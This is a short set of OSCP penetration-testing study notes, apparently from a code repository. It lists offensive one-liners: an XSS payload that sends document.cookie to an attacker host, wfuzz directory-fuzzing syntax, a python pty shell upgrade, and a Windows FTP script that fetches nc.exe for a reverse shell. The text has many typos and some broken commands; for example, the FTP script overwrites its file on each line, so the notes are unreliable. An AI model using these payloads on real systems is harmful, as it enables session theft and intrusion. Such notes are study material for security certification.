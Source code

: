 # OSCP NOTES

● <script>new image().src="http://ip:port/bogus.php?output="+escape(document.cookie);</script>
● netstat -ntl >> list open port
● wappalyzer >> webpage programming lange ,service{apache,lls}, OS
● <dirb> <gobaster> :: fuzzing directuries >> wfuzz 
   wfuzz -c -z file,wordlist directiry --hc 404,302,301 url/fuzz.(php,txt,zip,sh........)

○ python -c 'import pty; pty.spawn("/bin/bash")'
   Ctrl +z 》 process to background 
   Stay raw -echo
   fg
   By this way you take interactive shell

○ reverse shell by FTB
    echo open ip >ftp.txt
    echo user limbo >ftp.txt
    echo pass >ftp.txt
    echo bin >ftp.txt
    echo GET nc.exe> ftp.txt
    echo bye>ftp.txt
 Ftp -v -n -s:ftp.txt

○
